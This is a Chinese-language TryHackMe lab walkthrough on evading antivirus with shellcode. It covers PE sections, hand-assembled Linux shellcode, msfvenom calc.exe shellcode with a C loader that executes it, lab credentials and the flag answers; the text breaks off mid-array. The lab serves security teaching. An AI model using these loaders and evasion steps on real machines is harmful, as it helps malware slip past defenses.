






# AV 规避：Shellcode

## 任务1 简介

在本房间中，我们将探讨如何构建和交付有效载荷，重点在于避免被常见 AV 引擎检测到。 我们将研究作为攻击者可用的不同技术，并讨论每种技术的优缺点。

### 目标

- 了解 shellcode 是如何制作的。
- 探索分阶段有效载荷的优缺点。
- 创建隐蔽的 shellcode 以避免 AV 检测。

### 先决条件

建议事先了解一些[防病毒软件的工作原理](https://tryhackme.com/room/introtoav)知识，并对加密和编码有基本理解。 虽然不是严格要求，但了解一些基本汇编语言也会有所帮助。 此外，我们建议对阅读代码和理解函数（C、C#）有基本了解。

:::info 回答以下问题

<details>

<summary> 点击并继续学习！ </summary>

```plaintext
No answer needed
```

</details>

:::

## 任务 2 挑战

在此挑战中，我们准备了一台 Windows 机器，带有一个 Web 应用程序，供您上传有效载荷。 一旦上传，有效载荷将由 AV 检查，如果发现没有恶意软件，则会被执行。 此挑战的主要目标是规避 VM 上安装的防病毒软件，并捕获文件系统中的标志。 请随意尝试本房间讨论的所有技术，将它们上传到 `http://MACHINE_IP/`。

需记住的要点：

- 尝试结合本房间讨论的技术。
- 该网站仅支持 EXE 文件。
- 一旦 AV 扫描上传的文件且未检测到恶意代码，文件就会被执行。 因此，如果一切正确组合，您应该会收到一个反向 shell。



您现在可以忽略此任务的问题，但请务必在成功绕过 AV 并获得 shell 后返回回答它们。

部署附加的 VM 以跟进房间内容，然后再继续下一部分！ VM 将在浏览器中部署，并应自动出现在分屏视图中。 如果 VM 不可见，请使用页面右上角的蓝色显示分屏视图按钮。 如果您更喜欢通过 RDP 连接，可以使用以下凭据：

| Key |    Value    |
| :-: | :---------: |
| 用户名 |     thm     |
|  密码 | Password321 |

您还需要 AttackBox 来完成某些任务，因此这也是启动它的好时机。

:::info 回答以下问题

<details>

<summary> VM 上运行的是哪种防病毒软件？ </summary>

```plaintext
Windows Defender
```

</details>

<details>

<summary> 您可以访问的用户帐户名称是什么？ </summary>

```plaintext
av-victim
```

</details>

<details>

<summary> 在受害机器上建立一个可用的 shell 并读取用户桌面上的文件。 标志是什么？ </summary>

```plaintext
THM{H3ll0-W1nD0ws-Def3nd3r!}
```

</details>

:::

## 任务 3 PE 结构

本任务重点介绍 Windows 二进制文件 PE 数据结构的一些高级基本元素。

### 什么是 PE？

Windows 可执行文件格式，又称 PE（可移植可执行文件），是一种包含文件必要信息的数据结构。 它是一种在磁盘上组织可执行文件代码的方式。 Windows 操作系统组件，如 Windows 和 DOS 加载器，可以将其加载到内存中，并根据在 PE 中找到的解析文件信息执行它。

通常，Windows 二进制文件（如 EXE、DLL 和对象代码文件）的默认文件结构具有相同的 PE 结构，并在 Windows 操作系统中适用于（x86 和 x64）CPU 架构。

PE 结构包含各种部分，这些部分保存有关二进制文件的信息，例如元数据和外部库内存地址的链接。 其中一个部分是 **PE 头**，它包含元数据信息、指针以及内存中地址部分的链接。 另一个部分是 **数据部分**，它包括包含 Windows 加载器运行程序所需信息的容器，例如可执行代码、资源、库链接、数据变量等。


PE 结构中有不同类型的数据容器，每个容器保存不同的数据。

1. **.text** 存储程序的实际代码
2. **.data** 保存已初始化和定义的变量
3. **.bss** 保存未初始化的数据（已声明但未赋值的变量）
4. **.rdata** 包含只读数据
5. **.edata** 包含可导出对象及相关表信息
6. **.idata** 导入的对象及相关表信息
7. **.reloc** 映像重定位信息
8. **.rsrc** 链接程序使用的外部资源，如图像、图标、嵌入式二进制文件和清单文件，其中包含有关程序版本、作者、公司和版权的所有信息！

PE 结构是一个广泛而复杂的主题，我们不会过多涉及头和数据部分的细节。 本任务提供了 PE 结构的高级概述。 如果您有兴趣获取有关该主题的更多信息，我们建议查看以下 THM 房间，其中更详细地解释了该主题：

- [Windows Internals](https://tryhackme.com/room/windowsinternals)
- 剖析 PE 头

如果您查看 [Windows PE 格式](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)的文档网站，也可以获得更深入的 PE 细节。

查看 PE 内容时，我们会看到它包含一堆人类不可读的字节。 但是，它包含了加载器运行文件所需的所有细节。 以下是 Windows 加载器读取可执行二进制文件并将其作为进程运行的示例步骤。

1. 头部分：解析 DOS、Windows 和可选头以提供有关 EXE 文件的信息。 例如，
   - 幻数以 "MZ" 开头，这告诉加载器这是一个 EXE 文件。
   - 文件签名
   - 文件是为 x86 还是 x64 CPU 架构编译的。
   - 创建时间戳。
2. 解析节表细节，例如
   - 文件包含的节数。
3. 基于入口点地址和映像基址的偏移量将文件内容映射到内存中。
   - 入口点地址和映像基址的偏移量。
   - RVA：相对虚拟地址，与映像基址相关的地址。
4. 导入项、DLL和其他对象被加载到内存中。
5. 定位入口点地址并运行主执行函数。

### 为什么我们需要了解PE？

我们需要学习它有几个原因。 首先，由于我们处理的是打包和解包主题，该技术需要有关PE结构的详细信息。

另一个原因是AV软件和恶意软件分析师根据PE头和其他PE部分中的信息分析EXE文件。 因此，要创建或修改具有针对Windows机器的AV规避能力的恶意软件，我们需要了解Windows可移植可执行文件的结构以及恶意shellcode可以存储的位置。

我们可以通过如何定义和初始化shellcode变量来控制将shellcode存储在哪个数据部分。 以下是一些示例，展示我们如何在PE中存储shellcode：

- 将shellcode定义为主函数内的局部变量将将其存储在\*\* .TEXT \*\* PE部分中。
- 将shellcode定义为全局变量将将其存储在\*\* .Data \*\*部分中。
- 另一种技术涉及将shellcode作为原始二进制存储在图标图像中，并在代码中链接它，因此在这种情况下，它会出现在\*\* .rsrc \*\*数据部分中。
- 我们可以添加自定义数据部分来存储shellcode。

### PE-Bear

附加的VM是一个Windows开发机器，具有解析EXE文件和读取我们讨论的详细信息所需的工具。 为方便起见，我们在桌面上提供了PE-Bear软件的副本，它有助于检查PE结构：头、部分等。 PE-Bear提供了一个图形用户界面来显示所有相关的EXE详细信息。 要加载EXE文件进行分析，请选择**File** -> **Load PEs** (Ctrl + O)。


一旦文件被加载，我们可以看到所有PE详细信息。 以下屏幕截图显示了加载文件的PE详细信息，包括我们在本任务前面讨论的头和部分。


现在是时候尝试一下了！ 加载**thm-intro2PE.exe**文件以回答以下问题。 该文件位于以下位置：`c:\Tools\PE files\thm-intro2PE.exe`。

:::info 回答以下问题

<details>

<summary> thm-intro2PE.exe文件的MD5哈希值的最后6位是什么？ </summary>

```plaintext
530949
```

</details>

<details>

<summary> thm-intro2PE.exe文件的幻数值是多少（十六进制）？ </summary>

```plaintext
5A4D
```

</details>

<details>

<summary> thm-intro2PE.exe文件的入口点值是多少？ </summary>

```plaintext
12E4
```

</details>

<details>

<summary> thm-intro2PE.exe文件有多少个部分？ </summary>

```plaintext
7
```

</details>

<details>

<summary> 可以使用自定义部分来存储额外数据。 恶意软件开发者使用这种技术创建一个包含其恶意代码的新部分，并劫持程序的流程以跳转并执行新部分的内容。 额外部分的名称是什么？ </summary>

```plaintext
.flag
```

</details>

<details>

<summary> 检查额外部分的内容。 标志是什么？ </summary>

```plaintext
THM{PE-N3w-s3ction!}
```

</details>

:::

## 任务4 Shellcode简介

Shellcode是一组精心设计的机器代码指令，告诉易受攻击的程序运行附加功能，并且在大多数情况下，提供对系统shell的访问或创建反向命令shell。

一旦shellcode被注入到进程中并由易受攻击的软件或程序执行，它会修改代码运行流程以更新程序的寄存器和功能来执行攻击者的代码。

它通常用汇编语言编写，并翻译成十六进制操作码。 编写独特和自定义的shellcode有助于显著规避AV软件。 但编写自定义shellcode需要处理汇编语言的优秀知识和技能，这不是一项容易的任务！

### 一个简单的Shellcode

为了制作你自己的shellcode，需要一套技能：

- 对x86和x64 CPU架构的适当理解。
- 汇编语言。
- 对编程语言（如C）的扎实知识。
- 熟悉Linux和Windows操作系统。

为了生成我们自己的shellcode，我们需要从汇编器机器代码中编写和提取字节。 对于这个任务，我们将使用AttackBox为Linux创建一个简单的shellcode，写入字符串"THM, Rocks!"。 以下汇编代码使用两个主要函数：

- 系统写入函数（sys_write）来打印我们选择的字符串。
- 系统退出函数（sys_exit）来终止程序的执行。

为了调用这些函数，我们将使用**系统调用**。 系统调用是程序请求内核执行某些操作的方式。 在这种情况下，我们将请求内核将字符串写入我们的屏幕，然后退出程序。 每个操作系统关于系统调用都有不同的调用约定，这意味着要在Linux中使用写入，您可能使用与在Windows上使用的不同的系统调用。 对于64位Linux，您可以通过设置以下值从内核调用所需的函数：

| rax  | System Call                    | rdi                                 | rsi              | rdx                               |
| :--- | :----------------------------- | :---------------------------------- | :--------------- | :-------------------------------- |
| 0x1  | sys_write | unsigned int fd                     | const char \*buf | size_t count |
| 0x3c | sys_exit  | int error_code |                  |                                   |

上表告诉我们需要在不同的处理器寄存器中设置哪些值，以使用系统调用调用sys_write和sys_exit函数。 对于64位Linux，rax寄存器用于指示我们希望在内核中调用的函数。 将rax设置为0x1使内核执行sys_write，将rax设置为0x3c将使内核执行sys_exit。 这两个函数中的每一个都需要一些参数才能工作，这些参数可以通过rdi、rsi和rdx寄存器设置。 您可以在此处找到可用的64位Linux系统调用的完整参考。

对于**sys_write**，通过**rdi**发送的第一个参数是要写入的文件描述符。 **rsi**中的第二个参数是指向我们想要打印的字符串的指针，而**rdx**中的第三个参数是要打印的字符串的大小。

对于**sys_exit**，需要将rdi设置为程序的退出代码。 我们将使用代码0，这意味着程序成功退出。

将以下代码复制到您的AttackBox中，保存为名为**thm.asm**的文件：

```asm
global _start

section .text
_start:
    jmp MESSAGE      ; 1) let's jump to MESSAGE

GOBACK:
    mov rax, 0x1
    mov rdi, 0x1
    pop rsi          ; 3) we are popping into `rsi`; now we have the
                     ; address of "THM, Rocks!\r\n"
    mov rdx, 0xd
    syscall

    mov rax, 0x3c
    mov rdi, 0x0
    syscall

MESSAGE:
    call GOBACK       ; 2) we are going back, since we used `call`, that means
                      ; the return address, which is, in this case, the address
                      ; of "THM, Rocks!\r\n", is pushed into the stack.
    db "THM, Rocks!", 0dh, 0ah
```

让我们再解释一下ASM代码。 首先，我们的消息字符串存储在.text节的末尾。 由于我们需要一个指向该消息的指针来打印它，我们将在消息本身之前跳转到call指令。 当执行**call GOBACK**时，call之后的下一条指令的地址将被压入堆栈，这对应于我们消息的位置。 请注意，消息末尾的0dh、0ah是换行符（\r\n）的二进制等效形式。

接下来，程序启动GOBACK例程，并为我们的第一个sys_write()函数准备所需的寄存器。

- 我们通过在rax寄存器中存储1来指定sys_write函数。
- 我们将rdi设置为1，以便将字符串打印到用户控制台（STDOUT）。
- 我们弹出一个指向我们字符串的指针，该指针在我们调用GOBACK时被压入，并将其存储到rsi中。
- 通过syscall指令，我们使用我们准备的值执行sys_write函数。
- 对于下一部分，我们执行相同的操作来调用sys_exit函数，因此我们将0x3c设置到rax寄存器中，并调用syscall函数来退出程序。

接下来，我们编译并链接ASM代码以创建x64 Linux可执行文件，并最终执行该程序。

```shell title="Assembler and link our code"
user@AttackBox$ nasm -f elf64 thm.asm
user@AttackBox$ ld thm.o -o thm
user@AttackBox$ ./thm
THM,Rocks!
```

我们使用**nasm**命令编译asm文件，指定\*\*-f elf64\*\*选项以指示我们正在为64位Linux编译。 请注意，结果我们获得了一个.o文件，其中包含目标代码，需要链接才能成为可工作的可执行文件。 **ld**命令用于链接目标文件并获取最终的可执行文件。 **-o**选项用于指定输出可执行文件的名称。

现在我们有了编译后的ASM程序，让我们使用**objdump**命令通过转储编译后二进制文件的.text节来提取shellcode。

```shell title="Dump the .text section"
user@AttackBox$ objdump -d thm

thm:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:    eb 1e                    jmp    4000a0 

0000000000400082 :
  400082:    b8 01 00 00 00           mov    $0x1,%eax
  400087:    bf 01 00 00 00           mov    $0x1,%edi
  40008c:    5e                       pop    %rsi
  40008d:    ba 0d 00 00 00           mov    $0xd,%edx
  400092:    0f 05                    syscall 
  400094:    b8 3c 00 00 00           mov    $0x3c,%eax
  400099:    bf 00 00 00 00           mov    $0x0,%edi
  40009e:    0f 05                    syscall 

00000000004000a0 :
  4000a0:    e8 dd ff ff ff           callq  400082 
  4000a5:    54                       push   %rsp
  4000a6:    48                       rex.W
  4000a7:    4d 2c 20                 rex.WRB sub $0x20,%al
  4000aa:    52                       push   %rdx
  4000ab:    6f                       outsl  %ds:(%rsi),(%dx)
  4000ac:    63 6b 73                 movslq 0x73(%rbx),%ebp
  4000af:    21                       .byte 0x21
  4000b0:    0d                       .byte 0xd
  4000b1:    0a                       .byte 0xa
```

现在我们需要从上述输出中提取十六进制值。 为此，我们可以使用**objcopy**将\*\*.text**节转储到一个名为**thm.text\*\*的新文件中，格式为二进制，如下所示：

```shell
user@AttackBox$ objcopy -j .text -O binary thm thm.text
```

thm.text包含我们的shellcode，格式为二进制，因此为了能够使用它，我们需要先将其转换为十六进制。 **xxd**命令具有\*\*-i\*\*选项，可以直接以C字符串形式输出二进制文件：

```shell title="Output the hex equivalent to our shellcode"
user@AttackBox$ xxd -i thm.text
unsigned char new_text[] = {
  0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
  0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
  0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
  0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
  0x0d, 0x0a
};
unsigned int new_text_len = 50;
```

最后，我们得到了它，一个来自我们ASM汇编的格式化shellcode。 这很有趣！ 正如我们所看到的，为你的工作生成shellcode需要奉献精神和技能！

为了确认提取的shellcode按我们预期的方式工作，我们可以执行我们的shellcode并将其注入到C程序中。

```c
#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        0xeb, 0x1e, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00,
        0x5e, 0xba, 0x0d, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00,
        0x00, 0xbf, 0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xdd, 0xff, 0xff,
        0xff, 0x54, 0x48, 0x4d, 0x2c, 0x20, 0x52, 0x6f, 0x63, 0x6b, 0x73, 0x21,
        0x0d, 0x0a
    };
    
    (*(void(*)())message)();
    return 0;
}
```

然后，我们按如下方式编译并执行它，

```shell title="Compiler our C program"
user@AttackBox$ gcc -g -Wall -z execstack thm.c -o thmx
user@AttackBox$ ./thmx
THM,Rocks!
```

很好！ 它起作用了。 请注意，我们通过禁用NX保护来编译C程序，这可能会阻止我们在数据段或堆栈中正确执行代码。

理解shellcode及其创建方式对于以下任务至关重要，尤其是在处理shellcode的加密和编码时。

:::info 回答以下问题

<details>

<summary> 修改您的C程序以执行以下shellcode。 标志是什么？ </summary>

```c
unsigned char message[] = {
  0xeb, 0x34, 0xb9, 0x00, 0x00, 0x00, 0x00, 0x5e, 0x48, 0x89, 0xf0, 0x80,
  0x34, 0x08, 0x01, 0x48, 0x83, 0xc1, 0x01, 0x48, 0x83, 0xf9, 0x19, 0x75,
  0xf2, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00, 0x00, 0xba,
  0x19, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0xbf,
  0x00, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xe8, 0xc7, 0xff, 0xff, 0xff, 0x55,
  0x49, 0x4c, 0x7a, 0x78, 0x31, 0x74, 0x73, 0x2c, 0x30, 0x72, 0x36, 0x2c,
  0x34, 0x69, 0x32, 0x30, 0x30, 0x62, 0x31, 0x65, 0x32, 0x7c, 0x0d, 0x0a
};
```

```plaintext
THM{y0ur-1s7-5h311c0d3}
```

</details>

:::

## 任务5 生成Shellcode

在本任务中，我们继续使用shellcode，并演示如何使用公共工具（如Metasploit框架）生成和执行shellcode。

### 使用公共工具生成Shellcode

Shellcode可以针对特定格式和特定编程语言生成。 这取决于您。 例如，如果您的投放器（即主要的exe文件）包含将发送给受害者的shellcode，并且是用C编写的，那么我们需要生成一个在C中可用的shellcode格式。

通过公共工具生成shellcode的优点是，我们不需要从头开始制作自定义shellcode，甚至不需要成为汇编语言专家。 大多数公共C2框架都提供自己的shellcode生成器，与C2平台兼容。 当然，这对我们来说非常方便，但缺点是大多数（或者我们可以说所有）生成的shellcode都被AV供应商熟知，并且可以轻松检测到。

我们将在AttackBox上使用Msfvenom生成一个执行Windows文件的shellcode。 我们将创建一个运行`calc.exe`应用程序的shellcode。

```shell title="Generate Shellcode to Execute calc.exe"
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of c file: 835 bytes
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

结果，Metasploit框架生成了一个执行Windows计算器（calc.exe）的shellcode。 Windows计算器在恶意软件开发过程中被广泛用作示例，以展示概念验证。 如果该技术有效，则会弹出一个新的Windows计算器实例。 这确认了任何可执行的shellcode都可以与所使用的方法一起工作。

### Shellcode注入

黑客使用各种技术将shellcode注入到正在运行的或新的线程和进程中。 Shellcode注入技术修改程序的执行流程，以更新程序的寄存器和函数，从而执行攻击者自己的代码。

现在让我们继续使用生成的shellcode并在操作系统上执行它。 以下是一个包含我们生成的shellcode的C代码，该shellcode将被注入到内存中并执行"calc.exe"。

在AttackBox上，让我们将以下内容保存到名为`calc.c`的文件中：

```c
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

现在让我们将其编译为exe文件：

```shell title="Compile our C program for Windows"
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

一旦我们有了exe文件，让我们将其传输到Windows机器并执行它。 要传输文件，您可以使用AttackBox上的smbclient访问`\\MACHINE_IP\Tools`处的SMB共享，使用以下命令（记住`thm`用户的密码是`Password321`）：

```shell title="Copy calc-MSC.exe to Windows Machine"
user@AttackBox$ smbclient -U thm '//10.82.134.191/Tools'
smb: \> put calc-MSF.exe
```

这应该会在Windows机器的`C:\Tools\`中复制您的文件。

虽然您的机器的AV应该被禁用，但请随意尝试将您的有效负载上传到THM Antivirus Check，地址为`http://MACHINE_IP/`。


Metasploit框架有许多其他shellcode格式和类型，可满足您的所有需求。 我们强烈建议您更多地试验它，并通过生成不同的shellcode来扩展您的知识。

前面的示例展示了如何生成shellcode并在目标机器中执行它。 当然，您可以复制相同的步骤来创建不同类型的shellcode，例如Meterpreter shellcode。

### 从EXE文件生成Shellcode

Shellcode也可以存储在`.bin`文件中，这是一种原始数据格式。 在这种情况下，我们可以使用`xxd -i`命令获取其shellcode。

C2框架将shellcode作为原始二进制文件`.bin`提供。 如果是这种情况，我们可以使用Linux系统命令`xxd`来获取二进制文件的十六进制表示。 为此，我们执行以下命令：`xxd -i`。

让我们使用msfvenom创建一个原始二进制文件来获取shellcode：

```shell title="Generate a Raw shellcode to Execute calc.exe"
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
```

并在创建的文件上运行`xxd`命令：

```shell title="Get the shellcode using the xxd command"
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
